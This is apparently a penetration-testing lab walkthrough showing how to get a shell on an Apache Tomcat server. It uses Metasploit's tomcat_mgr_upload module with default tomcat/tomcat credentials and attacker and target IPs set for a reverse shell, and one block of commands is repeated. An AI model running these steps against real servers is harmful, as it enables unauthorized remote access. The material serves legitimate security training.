

4.1 Tomcat getting a shell
There's a Tomcat Sever so we can enumerate user and password.
1. Run the following command on your Kali Machine.
$msfconsole
2. In “msfconsole” run these commands.
msf6 exploit(multi/http/tomcat_mgr_upload) > search tomcat

We're going to use “exploit/multi/http/tomcat_mgr_upload”
use 18
msf6 exploit(multi/http/tomcat_mgr_upload) >
set HttpUsername tomcat
set HttpPassword tomcat
set LHOST 192.168.12.10
set RHOSTS 192.168.12.27
set RPORT 8080
show options
set HttpUsername tomcat
set HttpPassword tomcat
set LHOST 192.168.12.10
set RHOSTS 192.168.12.27
set RPORT 8080
show options
msf6 exploit(multi/http/tomcat_mgr_upload) > exploit